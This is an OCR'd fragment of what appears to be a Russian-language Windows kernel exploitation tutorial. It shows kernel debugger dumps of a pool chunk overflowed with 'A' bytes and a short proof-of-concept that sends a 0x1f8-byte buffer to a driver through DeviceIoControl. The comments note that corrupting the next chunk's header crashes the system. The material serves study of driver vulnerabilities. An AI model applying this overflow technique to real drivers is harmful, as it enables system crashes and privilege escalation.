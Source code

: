 ```js
850c4d68  41414141 41414141 41414141 41414141
850c4d78  41414141 41414141 41414141 41414141
850c4d88  41414141 41414141 41414141 41414141
850c4d98  41414141 41414141 41414141 41414141
850c4da8  41414141 41414141 41414141 41414141
850c4db8  41414141 41414141 41414141 41414141
850c4dc8  41414141 41414141 41414141 41414141
850c4dd8  41414141 41414141 41414141 41414141
850c4de8  41414141 41414141 41414141 41414141
850c4df8  41414141 41414141 41414141 41414141
850c4e08  41414141 41414141 41414141 41414141
850c4e18  41414141 41414141 41414141 41414141
850c4e28  41414141 41414141 41414141 41414141
850c4e38  41414141 41414141 41414141 41414141
850c4e48  41414141 41414141 41414141 41414141
850c4e58  41414141 41414141 41414141 41414141
850c4e68  41414141 41414141 41414141 41414141
850c4e78  41414141 41414141 41414141 41414141
850c4e88  41414141 41414141 41414141 41414141
850c4e98  41414141 41414141 41414141 41414141
850c4ea8  41414141 41414141 41414141 41414141
850c4eb8  41414141 41414141 41414141 41414141
850c4ec8  41414141 41414141 41414141 41414141
850c4ed8  41414141 41414141 41414141 41414141
850c4ee8  41414141 41414141 41414141 41414141
850c4ef8  41414141 41414141 41414141 41414141
850c4f08  41414141 41414141 41414141 41414141
850c4f18  41414141 41414141 41414141 41414141
850c4f28  41414141 41414141 41414141 41414141
850c4f38  41414141 41414141 41414141 41414141
850c4f48  04170040 e56c6946 00000400 000000f8
850c4f58  00000000 00000000 00000000 00000000
850c4f68  00000001 00000000 00000000 400c001c
850c4f78  82746b40 00000000 00800005 854962c0

kd> dd 850c4f48
850c4f48  04170040 e56c6946 00000400 000000f8
850c4f58  00000000 00000000 00000000 00000000
850c4f68  00000001 00000000 00000000 400c001c
850c4f78  82746b40 00000000 00800005 854962c0

Видим, что влезли идеально
...
const char* poc = std::string(0x1f8, 'A').c_str();
...
DeviceIoControl(hDevice, IO_CODE, (LPVOID)poc, 0x1f8, NULL, 0, &bytesRetn, NULL);
...

Впереди нашего чанка хедер следующего, если мы его покорраптим, улетим в BSOD

kd> dd 850c4f48-8
850c4f40  41414141 41414141 04170040 e56c6946
850c4f50  00000400 000000f8 00000000 00000000
850c4f60  00000000 00000000 00000001 00000000

```
